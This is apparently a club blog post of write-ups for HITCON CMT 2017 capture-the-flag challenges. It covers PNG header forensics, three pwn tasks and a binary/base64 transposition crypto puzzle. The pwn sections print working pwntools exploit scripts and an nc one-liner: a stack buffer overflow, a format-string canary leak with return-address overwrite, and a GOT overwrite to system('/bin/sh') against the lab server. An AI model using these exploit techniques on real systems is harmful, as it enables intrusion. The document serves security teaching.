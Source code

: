 ```yaml
---
title: HITCON CMT 2017
date: 2017-08-27 23:05:00
tags:
  - club
---
```


# HITCON CMT 2017 社群議程 投影片

[Speaker Deck](https://speakerdeck.com/oalieno/shen-tou-ce-shi-ji-ben-ji-qiao-yu-jing-yan-fen-xiang)
[SlideShare](https://www.slideshare.net/ssuserd44fa2/ss-79172936)

# HITCON CMT 2017 闖關題目 writeups

## [FORENSICS-100](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/59)
1. 題目說圖片被剪裁過，另外圖片的名稱是 `height_is_weird.png`，因此可以推測是高度被裁減過，需要改 png header 中的高度，讓不見的 flag 被顯現出來
2. 需要了解 png 的編碼方式，找到圖片高度在 header 裡的位置，可以參考[這裡](http://blog.csdn.net/hherima/article/details/45847043)
3. 由 png 協定可知，圖中的 35A 與 152 分別為此圖的寬與高
    ![](https://i.imgur.com/BXIel9j.png)

4. 運用一些可以直接修改檔案真正的值的軟體 ( 如 : hexedit )，對 152 做竄改，將數值調高

**這題要注意的是，出題者改高度沒有重新計算 CRC 檢驗碼，是想讓大家發現圖片有被改過的跡象，有些圖片解碼器對 png 做的 check 比較嚴格 ( ex. Mac 的預覽程式 )，可能會出現高度調超過真實高度或是發現 CRC 檢驗碼不正確會 crash 或完全不能讀的狀況(也就是你完全讀不了下載出來的檔案 @@)**

## [PWN-100](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/60)

這題是最基礎的 buffer overflow 題目

### 解題思路 :
目標是讓 to_be_overflow 等於 0xABCD1234 而拿到 shell
我們可以在原始碼中看到 `char text[40];` 和 `int to_be_overflowed` 是接在一起的
但是我們怎麼確認他們在記憶體上真的接在一起呢?

![objdump](https://i.imgur.com/1fCBCU7.png)

我們先用 objdump 來看一下 assembly ( 其他可以看 assembly 的工具都可以用喔 )

```assembly
lea eax,[ebp-0x34]
push eax
```

這行是在 call gets 函式之前把 gets 的參數放到 stack 的行為
對照原始碼就可以發現 ebp-0x34 就是我們的 text 在 stack 上的位址

```assembly
cmp DWORD PTR [ebp-0xc],0xabcd1234
```

這行等於是原始碼的 `if(to_be_overflowed == 0xabcd1234)`
所以 ebp-0xc 就是我們的 to_be_overflowed 的位址
`0x34 - 0xc = 0x28 = 40` 剛剛好他們之間的距離就是 text 這個陣列的大小，也就代表他們真的緊鄰依偎著彼此直到~~世界~~程式的終結

既然他們依偎在一起，而且 gets 這個函式不會檢查輸入的字串有多長 ( buffer overflow 的核心想法 )
那我們只要先輸入 40 個字，然後不按 Enter，再繼續輸入下去的字就會剛好蓋到 to_be_overflowed

### 需要注意的小地方

1. 是 [little endian](https://zh.wikipedia.org/wiki/字节序) 喔
2. 恩

### 程式碼

```python=
from pwn import *

useless = 0xABCD1234
offset = 40

payload = "A" * offset + p32(0xABCD1234)

r = remote('bamboofox.cs.nctu.edu.tw',22001)
r.sendline(payload)
r.interactive()
```

使用好用的 [pwntools](https://github.com/Gallopsled/pwntools) 做連線送 payload

```bash
( python -c "print 'A' * 40 + chr(0x34) + chr(0x12) + chr(0xCD) + chr(0xAB)" ; cat ) | nc bamboofox.cs.nctu.edu.tw 22001
```

直接把字元印出來 pipe 到 nc 指令
後面的 cat 是為了能讓你跟你拿到的 shell 互動
因為 cat 這個指令本身直接用不接檔案會像是一個 echo server，也就是你打什麼 cat 回什麼
然後再 pipe 到後面的 nc 就形成一個完美的互動式介面

## [PWN-200](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/61)
這題是一題簡單 format string + buffer overflow 的應用
可以參考我們的[社課連結](https://youtu.be/FvGhDlK36PI)

### 觀察

1. 先看一下原始碼，如果我們能跳去執行 `canary_protect_me` 這個函式，我們就可以拿到 shell 了
2. 這題有開 [canary 保護](http://yunnigu.dropsec.xyz/2017/03/20/Liunx%E4%B8%8B%E5%85%B3%E4%BA%8E%E7%BB%95%E8%BF%87cancry%E4%BF%9D%E6%8A%A4%E6%80%BB%E7%BB%93/)
3. 原始碼中出現 `printf(buf);`，存在 format string 的漏洞

### 解題思路

先用 format string 漏洞 leak 出 canary，就可以用 buffer overflow 蓋掉 return address 進而跳到 canary_protect_me 這個函式成功拿到 shell

### 程式碼

```python
from pwn import *

r = remote('bamboofox.cs.nctu.edu.tw',22002)

func = 0x0804854d
r.sendline('%15$x')
canary = int(r.recv(), 16)

payload = 'A'*40 + p32(canary) + 'B'*12 + p32(func)

r.sendline(payload)
r.interactive()
```

## [PWN-300](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/62)

這題同樣有 format string 的漏洞，第一次 gets, printf 用 format string 把 printf 的 GOT 蓋成 system 的函式位址，第二次 gets, printf 直接輸入 `/bin/sh` 就等於是，`system("/bin/sh")`

```python
from pwn import *

printf_got = 0x804a00c
system_plt_high = 0x0804
system_plt_low  = 0x8410
offset = 7

payload = p32(printf_got+2)
payload += p32(printf_got)
payload += "%{}c%{}$hn".format(system_plt_high - 8, offset)
payload += "%{}c%{}$hn".format(system_plt_low - system_plt_high, offset+1)

r = remote('bamboofox.cs.nctu.edu.tw', 22003)

r.sendline(payload)
r.interactive()
```

## [CRYPTO-100](https://bamboofox.cs.nctu.edu.tw/courses/3/challenges/64)
解題可以寫 python script 或直接用[線上工具](http://temp.crypo.com/) (應該是最簡單的一題 XD)
1. 看到很多 0101，猜測是 binary，try 一下應該是什麼的 binary，這題是 ascii 的 binary
2. 發現新字串有 `=` 結尾，猜測是 base64 的 padding
3. base64 decrype 完後，找到 `BBAMOOOF#X{cpR-Y}.T0`，因為有提示 轉置密碼 & FLAG 的形式是 : BAMBOOFOX{未知字串}，所以要找幾個字元一組
4. 發現四個字元一組 && encrypt role 是 [1,2,3,0] => 切開來做旋轉，即可找到 Flag
